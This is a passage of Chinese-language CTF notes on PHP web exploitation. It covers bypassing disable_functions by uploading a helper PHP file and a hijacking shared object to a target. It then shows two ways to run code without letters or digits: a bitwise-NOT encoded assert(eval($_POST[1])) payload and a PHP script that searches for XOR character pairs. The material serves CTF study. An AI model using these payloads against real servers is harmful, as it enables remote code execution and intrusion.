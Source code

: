 三是 `sopath` 参数，指定劫持系统函数的共享对象的绝对路径（如 `/var/www/bypass_disablefunc_x64.so`），另外关于该参数，你应注意 `web` 是否可跨目录访问到它。此外，`bypass_disablefunc.php` 拼接命令和输出路径成为完整的命令行，所以你不用在 `cmd` 参数中重定向。

**想办法将 `bypass_disablefunc.php` 和 `bypass_disablefunc_x64.so` 传到目标**，指定好三个 GET 参数后，`bypass_disablefunc.php` 即可突破` disable_functions`。执行 `cat /proc/meminfo`：

具体使用见[[极客大挑战 2019]RCE ME](4f3ccb8a.html)



***

# 无字母数字的RCE

## 1取反绕过

**取反运算(化成2进制之后,0变1,1变0),所以每一个字符在取反之后都会变成别的字符**

例如需要通过取反来构造: `assert(eval($_GET[_]))`那么就可以:

```
<?php
echo urlencode(~"assert");
echo '<br>';
echo urlencode(~"eval(\$_GET[_])");
echo '<br>';
?>
得到:
%9E%8C%8C%9A%8D%8B --assert
%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6 --eval(\$_POST[1])

那么: assert(eval($_POST[1]));就是:
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AD%BA%AE%AA%BA%AC%AB%A4%CE%A2%D6%C4);

接下来再从POST中给1这个参数传具体命令,就可以执行了
```



## 2异或绕过

`php`中可以将两个字符按位异或, 就是相同则为0,不同则为1

那么我们可以通过非字母数字的字符进行异或而得到字母或数字:

```php
<?php
# 通过GET来传我们需要转换的字母
$a = $_GET['char'];
# 取所有非字母数字字符的ascii码
$ascii_num = array_merge(range(33,47),range(58,64),range(91,96),range(123,126));
# var_dump($ascii_num);
foreach($ascii_num as $char1)
{
    foreach($ascii_num as $char2)
    {
        $res = chr($char1) ^ chr($char2);
        if($res==$a)
        {
            echo chr($char1).'^'.chr($char2).'='.$res.'<br>';
            echo urlencode(chr($char1)).'^'.urlencode(chr($char2)).'='.$res.'<br>';
            echo '<br>';
        }
    }
}
#echo '}' ^ ':';
echo('aaa');
```